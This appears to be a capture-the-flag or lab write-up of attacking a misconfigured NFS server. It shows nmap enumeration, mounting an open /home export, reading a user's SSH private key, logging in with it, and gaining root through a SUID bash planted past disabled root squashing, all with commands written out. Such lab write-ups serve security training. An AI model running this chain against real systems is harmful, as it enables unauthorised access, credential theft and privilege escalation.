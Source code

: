 # NFS

![Pasted image 20240919160551](https://github.com/user-attachments/assets/282a5c8a-2c4f-463d-a591-2011b4c8ca87)

NFS stands for "Network File System". It’s a protocol that allows users to access files over a network in a way that’s similar to accessing local storage. With NFS, systems can share files and directories seamlessly, making it easier for users and applications to access remote data as if it were on their local machine.

Here’s a simplified overview of the process when a request is made:

1. **Client Request:** This request includes details such as the file path and the desired operation.
2. **RPC Mechanism:** The client’s request is encapsulated in an RPC message and sent over the network to the NFS server.
3. **Server Processing:** Upon receiving the request, the NFS server processes it.
4. **Response to Client:** This response could include the requested file data, confirmation of a write operation, or an error message if something went wrong.

### Scope:

In the exercise, I will be performing enumeration on a target host that has the NFS service running. Based on the information gather from the enumeration, I will attempt to mount a share from the NFS server and see what sensitive information or misconfiguration can be exploited. 

### Tools and Technology:

Nmap, Linux, NFS, and Wireshark

## Enumeration:

To get started, I wanted to get more information on the target host. To do this I used nmap:

```
nmap  -A 10.10.191.163 -T5 -p- -nnvvvv
```

![Pasted image 20240920095232](https://github.com/user-attachments/assets/22ec02c8-876d-4dea-b274-bf6858953df5)

Based on the output, I can see that both TCP/UDP port 2049 is open related to the NFS service among others. 

One of the features that Nmap has is the use of NSE scripts. In this case, these are the scripts available concerning NFS:

![Pasted image 20240919163929](https://github.com/user-attachments/assets/6145205e-e2e4-43a8-898f-b8b4f65cd51e)

I went ahead and used the scripts to see what other information I am able to gather on the target:

```
nmap --script nfs-* 10.10.191.163  -T4  -nnvvvv
```

![Pasted image 20240920095032](https://github.com/user-attachments/assets/cc3ab798-f03e-4738-a7df-f2615cb8bbf3)

This output provided more details information including the NFS stats. Next, I use the `showmount` command below. This `showmount` command displays information about NFS shares on the server. It also shows which file systems are exported by the NFS server and which clients have access to them.

```
/usr/sbin/showmount -e 10.10.191.163
```

![Pasted image 20240920095126](https://github.com/user-attachments/assets/3bd751c4-543f-4afa-8f9c-b7555582d7a6)

This output is important to note. The `*`  means that the NFS server allows any machine on the network to mount that directory without restrictions. 

## Portmap Traffic:

![Pasted image 20240920100456](https://github.com/user-attachments/assets/fb5a1d25-94f8-4d74-abf2-cfd1e4700cec)

NFS relies on RPC for communication between the client and server. Each NFS service runs on a specific port, but the port numbers can vary. This is where portmap comes in. When an NFS client wants to connect to the NFS server, it first sends a request to portmap on the server to find out which port number corresponds to the NFS service. Below is an example of portmap and how it looks in the network traffic:

![Pasted image 20240920095904](https://github.com/user-attachments/assets/1cedc99e-9313-4c80-8874-7941f024bbfc)

Since the directory output above shows that any machine on the network to mount that directory without restrictions, I went ahead and mounted the share to my local machine. To do this, I first needed to create a directory where the share will be mounted:

```
mkdir /tmp/mount
```

Now that I created the directory, I proceeded to mount the share:

```
sudo mount -t nfs 10.10.191.163:home /tmp/mount/ -nolock
```

Breaking this down: 
+ mount : Execute the mount command
+ -t nfs : Type of device to mount, then specifying that it's NFS
+ IP:share : The IP Address of the NFS server, and the name of the share that will be mounted
+ -nolock: Spcifies not to use NLM locking

<!--![Pasted image 20240920100041](https://github.com/user-attachments/assets/28ff5c7b-5a64-478a-a225-b1fa4ad3a013)-->

When a client needs to mount a file system from the server, the client will need to obtain a file handle from the server. The file handle must correspond to the file system. This process requires that several transactions occur between the client and the server. Here, my host is attempting to mount /home/ from the server 10.10.191.163. Here is a view of this process in Wireshark:

![Pasted image 20240920100127](https://github.com/user-attachments/assets/38cf5180-6b0d-44c0-a2aa-c23071c959f4)

Once the share was mounted, I navigated to it and listed what was inside

```
cd /tmp/mount
ls -l
```

![Pasted image 20240920102239](https://github.com/user-attachments/assets/7b843650-b8c8-433b-a928-bac9a125524c)

I see there is a cappucino directory:

```
cd cappucino
```

![Pasted image 20240920102820](https://github.com/user-attachments/assets/74fbfa43-46b7-4188-bf5f-f922bdf7f85b)

Inside I saw there was an SSH directory:

```
cd .ssh
```

![Pasted image 20240920102756](https://github.com/user-attachments/assets/b7a118aa-47a3-4172-9b77-be15bd2bdc0f)

Looking at the contents of the id_rsa key with "nano" command:

![Pasted image 20240920103035](https://github.com/user-attachments/assets/b9145623-b73f-4497-ae92-0c423a84663e)

Looking at the content of the authorized_keys with the "cat" command:

![Pasted image 20240920103610](https://github.com/user-attachments/assets/98b5707e-53b5-4c78-bd2b-c18a7ccbf55a)

I copied the private key to my local system and changed the permissions with chmod 600 file_name:

```
ls -lhr id_rsa
```

![Pasted image 20240920103435](https://github.com/user-attachments/assets/c303846c-78d8-4846-bf2b-19d7aaaab3f0)

Now that I have the private key, I attempted to login to the server via SSH:

```
ssh -i id_rsa cappucino@10.10.191.163
```

![Pasted image 20240920104035](https://github.com/user-attachments/assets/b7977ea7-3266-4b3e-8c42-85e1073015cc)

I was able to successfully login! 

## Exploiting NFS:

There are certain mechanisms that NFS has enabled by default that helps mitigate risks, one of these is called **Root Squashing**. It helps prevent the root user on a client machine from having unrestricted access to the NFS server’s file system. It’s typically enabled by default for NFS exports, but it can be turned off (which is generally not recommended). 

First, I downloaded the bash shell from the NFS server to my local system:

```
scp -i ~/id_rsa  cappucino@10.10.191.163:/bin/bash ~/Downloads/bash
```

I then changed the permissions owner to root:

```
chown root bash
```

![Pasted image 20240920105617](https://github.com/user-attachments/assets/b6472191-b3c7-44db-bf5b-96be01625229)

Copying the bash file to /tmp/mount directory 

```
cp ~/Download/bash /tmp/mount
```

I then proceeded to change the permissions and added the SUID bit using chmod:

```
chmod +s bash 
```

![Pasted image 20240920113954](https://github.com/user-attachments/assets/cf873900-dcac-4f74-94f9-8c065c02687b)

In output above I can see the I have the permissions,and I am now root! 

### Summary:

In this exercise, I was able to perform enumeration using nmap of the target host and identified the ports and services open. In this case, I focused on the NFS service. I was then able to access the NFS server and mount the share to my local host. This then provided me with the private key which I then used to login via SSH on the server. I was then able to set the SUID permissions due to misconfiguration of root squash. This ultimately allowed me to execute the SUID bit bash executable and gain root access. 

In conclusion, it's important to perform regular testing to uncover potential vulnerabilities in the NFS configuration, such as misconfigured exports, lack of proper authentication, or inadequate permissions, which can be exploited by attackers.
